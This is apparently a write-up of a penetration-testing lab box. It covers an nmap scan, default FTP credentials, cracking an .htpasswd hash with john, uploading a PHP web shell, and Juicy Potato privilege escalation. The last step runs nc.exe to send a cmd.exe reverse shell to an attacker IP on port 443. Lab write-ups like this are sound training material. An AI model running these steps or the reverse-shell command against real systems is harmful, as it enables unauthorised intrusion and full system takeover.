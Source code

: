 _____

>[!INFO]
> IP=192.168.229.46
> Windows

# Nmap

```python
PORT     STATE SERVICE            VERSION
21/tcp   open  ftp                zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Feb 13 01:07 log
| ----------   1 root     root         2275 Aug 09  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Feb 18  2023 accounts
242/tcp  open  http               Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
| http-auth:
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
|_http-title: 401 Authorization Required
3145/tcp open  zftp-admin         zFTPServer admin
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=LIVDA
| Not valid before: 2023-01-28T03:26:23
|_Not valid after:  2023-07-30T03:26:23
|_ssl-date: 2024-02-12T17:07:31+00:00; -5h59m50s from scanner time.
| rdp-ntlm-info:
|   Target_Name: LIVDA
|   NetBIOS_Domain_Name: LIVDA
|   NetBIOS_Computer_Name: LIVDA
|   DNS_Domain_Name: LIVDA
|   DNS_Computer_Name: LIVDA
|   Product_Version: 6.0.6001
|_  System_Time: 2024-02-12T17:07:23+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


# 21 - ftp

![[Pasted image 20240212182115.png]]

ftp $IP 
admin:admin

![[Pasted image 20240212182146.png]]

```bash
john --wordlist=/usr/share/seclists/rockyou.txt .htpasswd
offsec:elite
```


```bash
put shell.php
```

```
http://192.168.229.46:242/shell.php?cmd=dir
```

![[Pasted image 20240212182553.png]]

# PrivEsc
We can perform privilege escalation using Juicy Potato.
However, there are two challenges.
- This is an x86 system, so we need an x86 Juicy Potato executable. I used the one from here: https://github.com/ivanitlearning/Juicy-Potato-x86/releases
- The default CLSID doesn't work. Juicy Potato will return `COM -> recv failed with error: 10038`.


We can use one of the BITS CSLIDs from here https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise

```cmd
juicy.potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\wamp\www\nc.exe -e cmd.exe 192.168.45.189 443" -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9}
```




